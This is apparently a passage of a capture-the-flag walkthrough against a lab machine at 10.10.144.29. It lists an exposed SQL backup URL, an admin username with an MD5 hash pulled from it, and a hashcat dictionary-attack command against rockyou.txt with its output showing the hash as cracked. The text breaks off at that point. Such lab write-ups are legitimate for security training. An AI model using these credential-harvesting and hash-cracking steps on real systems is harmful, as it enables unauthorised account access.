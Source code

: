 ### URLs of interests

- http://10.10.144.29/content/inc/mysql_backup/mysql_bakup_20191129023059-1.5.1.sql
- http://10.10.144.29:80/content/as/index.php

## Admin Credentials

From backup SQL file, credentials obtained.

|Admin|passwd|
|---|---|
|manager|42f749ade7f9e195bf475f37a44cafcb|

### Hash Cracking

`$ hashcat -m 0 md5.txt /usr/share/wordlists/rockyou.txt -o md5_cracked.txt`

```
hashcat (v6.1.1) starting...

OpenCL API (OpenCL 1.2 pocl 1.6, None+Asserts, LLVM 9.0.1, RELOC, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
=============================================================================================================================
* Device #1: pthread-Intel(R) Core(TM) m3-7Y30 CPU @ 1.00GHz, 5760/5824 MB (2048 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers applied:
* Zero-Byte
* Early-Skip
* Not-Salted
* Not-Iterated
* Single-Hash
* Single-Salt
* Raw-Hash

ATTENTION! Pure (unoptimized) backend kernels selected.
Using pure kernels enables cracking longer passwords but for the price of drastically reduced performance.
If you want to switch to optimized backend kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

Host memory required for this attack: 65 MB

Dictionary cache built:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 3 secs

                                                 
Session..........: hashcat
Status...........: Cracked
```